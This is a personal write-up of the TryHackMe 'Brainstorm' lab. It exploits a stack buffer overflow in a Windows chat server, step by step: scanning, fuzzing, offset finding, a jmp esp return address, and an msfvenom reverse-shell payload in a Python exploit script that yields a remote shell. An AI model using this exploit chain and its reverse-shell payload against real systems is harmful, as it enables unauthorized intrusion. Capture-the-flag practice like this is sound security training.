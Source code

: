 # Brainstorm [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.94.151
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -p- -Pn $targ3t -oN nmap.scan -vv
```

It appears that open ports for this machine are `21`, `3389` and `9999`. Let's perform a script scan on these:

```
nmap -p 21,3389,9999 --script=vuln $targ3t -oN nmap.vuln.scan -vv
```

It doesn't seem like the ports have obvious vulnerabilities, but port `21` or `ftp` allows anonymous login, so let's do it:

```
ftp anonymous@targ3t
```

We can see that there is a chatserver directory and in it we have `chatserver.exe` and `essfunc.dll`. Let's download both.

Now going to port `9999`, where it seems like this chatserver is running, it doesn't have anything suspicious:

```
nc 10.10.227.170 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Write a message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


Mon Feb 24 09:49:58 2025
AAAAAAAAAAAAAAAAAAAA said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

To test this properly, I'll mount a local Windows VM. This [write-up](https://amirr0r.github.io/posts/thm-brainstorm/) here is using `x64dbg`, which is an open-source reverse engineering application and I absolutely loved it, so I'll be using this one too. 

<sup>_For context, I tried to go through this workflow with Immunity Debugger and `mona`, but it didn't work, because of the wrong Python configuration and I didn't try to correct it, because I didn't like Immunity Debugger and `mona` very much anyway, so I thought this could be a good way to explore alternatives_</sup>

First we need to fuzz this `Write a message:` input field. I decided to do this manually, by generating cyclic patterns of different length, incrementing by 100. Finally this is the one that worked:

``` 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
```

This crashed the application, while 2000 didn't. Which means the offset is somewhere in-between. Now we need to navigate to `x32dbg` and copy the value of the EIP register:

```
31704330
```

Then we check this value with a pattern offset:

```
└─$ /usr/bin/msf-pattern_offset -q 31704330
[*] Exact match at offset 2012
```

Now we need to write a script, that we will use as an exploit more than once:

```python3
#!/usr/bin/env python3
import socket
import time

ip = "192.168.0.111"  # Target IP
port = 9999  # Target Port

username = "A" * 20

offset = 2012
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

message = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Connected to target.")

    print("Sending username...")
    s.sendall(bytes(username + "\r\n", "latin-1"))

    time.sleep(1)  # Adjust based on response timing

    print("Sending evil buffer as a message...")
    s.sendall(bytes(message + "\r\n", "latin-1"))

    print("Done!")
except Exception as e:
    print(f"Could not connect: {e}")
finally:
    s.close()
```

I borrowed this code from the [Buffer Overflow Prep](../thm_bufferoverflow/README.md) room and modified it to work with this app.

Now I'm going to use this script to find out if EIP will be overwritten with 4 `B`s if I put them in `retn` variable:

```
overflow = "A" * offset
retn = "BBBB"
```

And then launch it:

```
python3 exploit.py
```

And this does overwrite the EIP with `42424242` which is `BBBB` in hex:

```
EIP     42424242
```

Now that we're sure we control the EIP, let's generate an array of characters and send them on top of this buffer. I borrowed a script from the above-mentioned Buffer Overflow Prep room:

```python3
#!/usr/bin/env python3

import sys

def generate_bytearray(excluded_bytes):
    excluded = bytes.fromhex(excluded_bytes.replace("\\x", "").lower())
    print("".join(f"\\x{x:02x}" for x in range(256) if x not in excluded))

if __name__ == "__main__":
    excluded_bytes = sys.argv[1] if len(sys.argv) > 1 else ""
    generate_bytearray(excluded_bytes)
```

The command to generate all bytes except `\x00` is:

```
python3 bytearray.py "\x00"
```

Now we need to copy the output into `padding` variable in our exploit and launch it:

```
python3 exploit.py
```

Now we are going to need an `ERC.Xdbg` plugin to proceed further, so make sure to install it and if done, configure it in the command input:

```
ERC --config SetWorkingDirectory C:\Users\user\Desktop\
```

And then generate a bytearray:

```
ERC --bytearray
```

After that you can copy ESP address and compare two bytearrays byte by byte:

```
ERC --compare 0109EEAC C:\Users\user\Desktop\ByteArray_1.bin
```

It seems like there are no bad chars. 

Now we need to find a return address and write it to the EIP. With the help of `ERC.Xdbg` plugin we can search for modules used by this binary, with disabled security protections:

```
ERC --ModuleInfo -NXCompat
```

Only two modules have all protections set to `False`, it's the binary itself and `essfunc.dll` file. Now we need to go to the __Symbols__ tab in the debugger and double click this `dll` file. 

Press Ctrl+F to display a find input and type `jmp esp`. It displays a list of memory addresses which are jump points to ESP. Let's use the very first one:

```
625014DF
```

So converting this to little endian and writing it into `retn` variable would be the first step: `\xdf\x14\x50\x62`

But the next step would be to generate an actual shellcode to work with this:

```
msfvenom -p 'windows/shell_reverse_tcp' LHOST=192.168.0.109 LPORT=9822 -f c --bad-chars="\x00" --var-name payload
```

Copy the output and paste it into the `payload` variable inside the parentheses like this:

```
payload = ("\xda\xd0\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\xba\x25\xf3"
...
"\x4b\xea\x3c\x94\x4e\xb6\xfa\x45\x23\xa7\x6e\x69\x90\xc8"
"\xba")
```

Now start a netcat listener and launch the exploit again:

```
nc -lvnp 9822
python3 exploit.py
```

The output is the shell:

```
listening on [any] 9822 ...
connect to [192.168.0.109] from (UNKNOWN) [192.168.0.111] 49898
Microsoft Windows [Version 10.0.22621.4890]
(c) Microsoft Corporation. All rights reserved.

C:\Users\windows\Desktop>whoami
whoami
desktop-n9ia851\windows

C:\Users\windows\Desktop>
```

Taking all of this to the actual TryHackMe Brainstorm machine and generating another shellcode with my VPN IP, I got the root flag:

```
C:\Users\drake\Desktop>type root.txt
type root.txt
................................
C:\Users\drake\Desktop>
```
